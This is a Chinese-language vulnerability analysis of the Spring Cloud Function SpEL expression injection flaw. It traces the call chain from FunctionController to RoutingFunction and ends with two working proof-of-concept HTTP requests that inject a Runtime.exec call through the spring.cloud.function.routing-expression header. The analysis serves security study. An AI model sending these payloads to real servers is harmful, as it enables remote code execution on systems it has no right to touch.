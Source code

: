 0x01 漏洞简介
=========

 Spring Cloud Function 是基于 Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。Spring Cloud Function 被爆出了 SPEL 表达式注入漏洞

 通过查看提交的 commit 确定漏洞最终的 sink

 <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

 ![image-20220328114504-eawmy5r.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-f5eaa87a1117a3e8e831772d7397e62589ef74dd.png)

 ![image-20220328142245-rhhzd2f.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-90cf64807003f812b8bb253f5674b2189b29a602.png)

0x02 漏洞分析
=========

 `org.springframework.cloud.function.web.flux.FunctionController#postStream`

 ![image-20220328152006-sfpe1w7.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-392f98a68c3e39b260614c68cd79f9144f34996b.png)

 `org.springframework.cloud.function.web.mvc.FunctionController#form`

 ![image-20220328152230-j4i0m87.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-205ffb0d9e6ba0d7c9db74d1e438643dcb4724ec.png)

 通过两个入口可以触发漏洞

 先关注漏洞原理

 SPEL 注入的实例

```java
ExpressionParser parser = new SpelExpressionParser();  
Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec(\\"calc.exe"\\")");  
Object value = exp.getValue();
```

 SPEL 注入最终触发的位置

 `org.springframework.cloud.function.context.config.RoutingFunction#functionFromExpression`

 ![image-20220328154830-w6ymtvb.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-ccdb9299be03226dedf3a7255112c27952b74e73.png)

 向上跟踪，发现调用且第一个参数可控的位置

 `org.springframework.cloud.function.context.config.RoutingFunction#route`

 ![image-20220328155407-iho6y73.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-520f5bc7e70676673874266d76228e70eb66fb36.png)

 参数来自请求头中 `spring.cloud.function.routing-expression` 的值

 `org.springframework.cloud.function.context.config.RoutingFunction#apply`

 ![image-20220328155553-paoxbzi.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-fa1d759bd568d71a25a0a8e57c68e6e00c0ad8bf.png)

 `RoutingFunction` 是 `Function` 的接口，所以要想办法触发到 `RoutingFunction`

 <https://docs.spring.io/spring-cloud-function/docs/3.2.0/reference/html/spring-cloud-function.html#>

 ![image-20220328161312-gqfrtlv.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-df4b27f2d40420e5beec0d78ddc1565ee41cd2c2.png)

 在官方文档中也提及到了允许 `spring.cloud.function.routing-expression` 来执行 SPEL 表达式

 ![image-20220328165011-tg8xfsv.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4bcad7333f752e073e2eea5de0e9adda27353cca.png)

 可以通过在配置文件中添加 `spring.cloud.function.definition=functionRouter` 来实现访问不存在的路由时调用 `RoutingFunction`

 当通过 POST 传送数据时

 `org.springframework.cloud.function.web.mvc.FunctionController#post`

 ![image-20220328174102-gzeoug6.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-b30e9b5c33ce6145914ab6ffa6116c1bda6bce63.png)

 `org.springframework.cloud.function.web.util.FunctionWebRequestProcessingHelper#processRequest`

 ![image-20220328174431-atbqrsu.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-aded48a3f59b90cef0f0121add0c1e3771a20eaf.png)

 `org.springframework.cloud.function.context.catalog.SimpleFunctionRegistry.FunctionInvocationWrapper#apply`

 ![image-20220328174453-9th14m6.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-e776fc703cfe3e0000d05a9356b7b331ff480d70.png)

 `org.springframework.cloud.function.context.catalog.SimpleFunctionRegistry.FunctionInvocationWrapper#doApply`

 ![image-20220328174526-2zirlf0.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-6339ec33f0f94daff22ac416f958420472690e3c.png)

 `org.springframework.cloud.function.context.config.RoutingFunction#apply`

 ![image-20220328174625-ukjq7hi.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4bff6f463e82f7a036d492feaa410b1af9feae0e.png)

 `org.springframework.cloud.function.context.config.RoutingFunction#route`

 ![image-20220328174655-hguduil.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-5220422aada6f67d1cd484f09b1d0600a17fabff.png)

 简单的分析完成之后，仍然存在大量的疑问和不理解的地方，又看到可以不通过配置文件来实现RCE，于是决定再进一步进行分析

0x03 漏洞再分析
==========

 发现通过特定的路由可以直接实现RCE `functionRouter`

 当不修改配置文件，向路由 `functionRouter` 发送请求时

 `org.springframework.cloud.function.web.mvc.FunctionHandlerMapping#getHandlerInternal`

 ![image-20220329155249-0fzipdu.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-1d745339464cfe3a09217f45f6070981738a0598.png)

 `org.springframework.cloud.function.web.util.FunctionWebRequestProcessingHelper#findFunction`

 ![image-20220329155313-736xdkm.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4db7d648a940b74c0016c0fdffb9bbe647f7e4d4.png)

 我们可以看到在通过 POST 请求时，会去根据 path 的值，去获取 `function`

 `org.springframework.cloud.function.web.util.FunctionWebRequestProcessingHelper#doFindFunction`

 ![image-20220329155656-38oml8x.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-5a0e9a86a925235cbaae41b8d6ec5fa13583b21c.png)

 `org.springframework.cloud.function.context.FunctionCatalog#lookup(java.lang.String, java.lang.String...)`

 ![image-20220329155414-9x3ua5h.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-09ada53e58cfacd624b9613246dd8790bf400f08.png)

 如果获取的值为空，还可以去读取本身配置中的 `functionDefinition` 来代替 name 去再执行获取 function 的值

 所以设定 配置文件 `spring.cloud.function.definition=functionRouter` 与直接请求路由 `functionRouter` 效果是一样的，获得的 function 的值如下所示

 ![image-20220329160053-0p8dfjm.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-883778fe2f3d1f8d704fa323fd7f13710db6e574.png)

 之后的分析就跟前面对上了。

0x04 漏洞复现
=========

```php
POST /functionRouter HTTP/1.1  
Host: 127.0.0.1:8088  
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc.exe")  
Content-Length: 1  

1
```

 ![image-20220329160318-zbi7wcw.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-4b325f8b062921dea67d8486e272ae3e7a975747.png)

```php
POST /1 HTTP/1.1  
Host: 127.0.0.1:8088  
spring.cloud.function.routing\-expression:T(java.lang.Runtime).getRuntime().exec("calc.exe")  
Content\-Length: 1  

1
```

 ![image-20220329160351-2ao19e1.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-aebcbd1fdacd4df014f2626239e346a9844c50f1.png)

0x05 参考文章
=========

 <https://segmentfault.com/a/1190000041611881>

 <https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f>

 <https://mp.weixin.qq.com/s/APiXRwSiEanoIuohjwkoEw> 且听安全

 <https://hosch3n.github.io/2022/03/26/SpringCloudFunction>漏洞分析/ SpringCloudFunction漏洞分析

 <https://mp.weixin.qq.com/s/U7YJ3FttuWSOgCodVSqemg> Spring Cloud Function v3.x SpEL RCE

 <https://mp.weixin.qq.com/s/sPPyso-WyPGnYYHeyL9DPA> Spring-Cloud-Function SPEL 注入漏洞的一点想法